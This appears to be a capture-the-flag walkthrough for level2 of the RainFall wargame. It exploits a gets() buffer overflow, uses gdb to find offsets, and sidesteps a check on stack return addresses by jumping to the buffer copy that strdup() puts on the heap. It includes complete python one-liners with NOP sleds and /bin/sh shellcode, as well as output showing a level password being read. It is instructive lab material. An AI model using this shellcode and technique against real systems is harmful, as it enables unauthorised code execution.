 1. Let's run `level2` exec to first see the behavior. It waits for an input, and then prints it to stdout :
    ```
    level2@RainFall:~$ ./level2
    coucou
    coucou
    ```

2. `gdb ./level2` then `set disassembly-flavor intel` and then `disas main`

3. We see that the `main` function calls the `p` function.

4. 
    - `disas p` => we see that the `gets` function is called. we know that this function does not check for buffer overflow so we could use a bof here.
    - We see that the buffer given as argument starts at address `$ebp-0x4c` (cf line <+19> where this addres is loaded into $eax and then stored on the stack as argument to gets function call). This represents **76 bytes**.
    - Then at $ebp is stored the value of the stackbase pointer for the main function (which will be retrieved when getting out of p()) => you can check this by breaking before the p function call in main and check value inside $ebp (`i r $ebp`), and then breaking inside the p() function and check the content at $ebp address (`i r $ebp` to get address stored in $ebp, and then `x/8wx addr`).
    So we have **76 + 4 = 80 bytes** before erasing the main() next instruction stored location ($eip at time of p() call).
    - With our shellcode representing 45 bytes, we have to fill up the buffer with 35 NOP bytes (`\x90`), then our sheell code, and then an address inside the NOP sequence (does not matter, the program will jump to next instruction if current instruciton is NOP).
    - Let's find the address at the beginning of our buffer : `x/20wx $ebp-0x4c`, which gives **0xbffff69c**. We can take whichever address in the range formed by this address and this address + 35 bytes. Let's take +0x10 or +16 bytes : **0xbffff6ac**

5. Let's launch our bof:

    ```
    python -c 'print("\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xac\xf6\xff\xbf")' > /tmp/exploit

    cat /tmp/exploit - > ./level2
    ```

    *Note : the memory works according to the little endian convention : the highest byte is on the right, the lowest on the left in one address. That is why we have to reverse it* 

6. Result : The address we wanted to call for our bof (the one stored where the nedxt instruction of the main is stored) is
    printed in stdout, and the program quits.
    ```
    level2@RainFall:~$ cat /tmp/exploit - | ./level2
    (0xbffff6ac)
    level2@RainFall:~$
    ```

    Indeed - see `source.c` file, after teh call to the gets function, the program checks that the value stored at `$ebp + 0x4`, meaning the value stored at the address where the $eip of the main() function is supposed to be stored, is not a stack based address (it checks that it does not start with `b`). If it does, the program prints out the address and exit, not returning to the main, hence not executing the next instruciton in main => our bof does not work.


7. We can see that if the address stored there is not a stack based address, the program call `strdup` with the address of our 
    buffer as argument. `strdup` will malloc a new address memory (hence in the heap), of the size of our buffer, fill up this new memory location with the content of our buffer, and returns the address of this newly allocated memory. We can recover this new memory location with the content of our buffer : it is stored in `$eax` register when the function returns.
    To do this, we juste set a breakpoint right after the `strdup` function call (at **0x0804853d**) and check the value stored in $eax (`i r $eax`). We find that this newly allocated buffer is stored at address **0x804a008**.
    So we have to store this address as the next instruction of the main() function ($eip of the main function) instead of the one of our buffer on the stack. Let's try our exploit with this address:

    ```
    python -c 'print("\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08")' > /tmp/exploit

    level2@RainFall:~$ cat /tmp/exploit - | ./level2
    ������������������������������������^�1��F�F
                                            �
                                             ���V
                                                  ̀1�����/bin/s�
    cat /home/user/level3/.pass
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
    ```
